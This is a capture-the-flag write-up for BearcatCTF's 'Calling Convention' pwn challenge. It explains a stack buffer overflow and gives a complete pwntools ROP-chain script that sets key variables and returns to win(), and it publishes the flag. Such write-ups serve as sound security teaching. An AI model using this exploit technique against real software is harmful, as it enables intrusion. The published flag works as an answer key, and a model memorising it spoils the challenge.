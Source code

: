 https://ctftime.org/event/2596

# Calling Convention (pwn)

You've almost got a good grasp on this. Time to think past your function variables. Make Mudge proud

nc chal.bearcatctf.io 39440

## Analysis

We can see that the binary has no stack canaries and no PIE:

```bash
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We have control over a large portion of the stack including the return address:

```c
void vuln() {
    fflush(stdout);
    char s[8];
    fgets(s, 0x200, stdin);
}
```

We can perform a simple ret2win provided we meet the constraints first:

```c
void win() {
    FILE *f;
    char c;
    f = fopen("flag.txt", "rt");
    if (key1 != 27000 && key2 != 0xbadf00d && key3 != 0x1337){
        fclose(f);
        exit(1);
    }

    while ( (c = fgetc(f)) != EOF ) {
        printf("%c", c);
        fflush(stdout);
    }
    fclose(f);
}
```

We are given a set of functions to help us meet the various constraints:

```c
void set_key1() {
    if (key3 != 0)
        key1 = 27000;
}

void ahhhhhhhh() {
    if (key1 == 0)
        return;
    key3 = 0;
    key2 = key2 + 0xbad0000;
}

void food() {
    key2 = key2 + 0xf00d;
}

void number3() {
    key3 = 0x1337;
}
```

### Meta

The description makes reference to https://en.wikipedia.org/wiki/Peiter_Zatko with the remark "Make Mudge proud". He is referenced because he wrote one of the first articles on "How to write Buffer Overflows" in 1995 https://insecure.org/stf/mudge_buffer_overflow_tutorial.html and we are required to exploit them to complete this challenge.

## Solution

1) Create a ropchain that ends with `win` but first meets the constraints
    - Take care to offset into the functions as required to avoid unaligning the stack

```python
#!/usr/bin/env python3

from pwn import *

#context.log_level = "debug"
elf = ELF("./calling_convention", checksec=False)
context.binary = elf

#p = elf.process()
#p = elf.debug(gdbscript="")
p = remote("chal.bearcatctf.io", 39440)

payload = b"A" * 0x10
payload += p64(elf.sym["number3"]+0x8)
payload += p64(elf.sym["set_key1"])
payload += p64(elf.sym["ahhhhhhhh"]+0x8)
payload += p64(elf.sym["food"])
payload += p64(elf.sym["win"]+0x5)

p.sendlineafter(b"> ", payload)

p.readuntil(b"{")

# BCCTF{R0p_Ch41ns_1b01c1c3}
print("BCCTF{" + p.readuntil(b"}").decode())
```

## Flag
`BCCTF{R0p_Ch41ns_1b01c1c3}`

smiley 2025/02/02
